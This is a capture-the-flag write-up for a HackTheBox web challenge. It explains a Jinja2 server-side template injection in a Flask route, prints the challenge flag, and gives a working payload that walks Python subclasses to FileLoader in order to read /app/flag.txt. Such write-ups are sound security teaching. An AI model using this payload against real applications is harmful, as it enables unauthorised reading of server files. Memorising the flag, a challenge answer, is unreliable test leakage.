 # Trial by Fire

As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

# Flag
```
HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_03fc44c5a1eb1271a9ff5974a1eb37fb}
```

# Solution

<img src="imgs/index.png">

The home page gives us a big hint to an SSTI vulnerability.
> Perhaps 49 is the key.

Examining [`routes.py`](src/challenge/application/blueprints/routes.py) shows where the SSTI may take place:

```py
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior") #Payload injected here
    ...

    REPORT_TEMPLATE = f"""
            ...
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            ...
    """

    return render_template_string(REPORT_TEMPLATE) #SSTI vuln here

```

Our payload can be injected into `warrior_name`, which will then be rendered after calling `/battle-report`. I used Postman to test this process by first calling `/begin`:

<img src="imgs/basic.png">

Using that session cookie to retrieve the battle report:

<img src="imgs/success.png">

As you can see, the payload worked as `49` is displayed as our warrior's name.

A bit of snooping around led me to craft the following payload, which uses the class `<class '_frozen_importlib_external.FileLoader'>` to retrieve and read data from our desired file, in this case `/app/flag.txt`.

```
{{''.__class__.__mro__[1].__subclasses__()[134]("/app/flag.txt", "/app/flag.txt").get_data("/app/flag.txt")}}
```

<img src="imgs/flag.png">

# References

- Using FileLoader class: https://github.com/TheMaccabees/ctf-writeups/blob/master/HexionCTF2020/Notes/README.md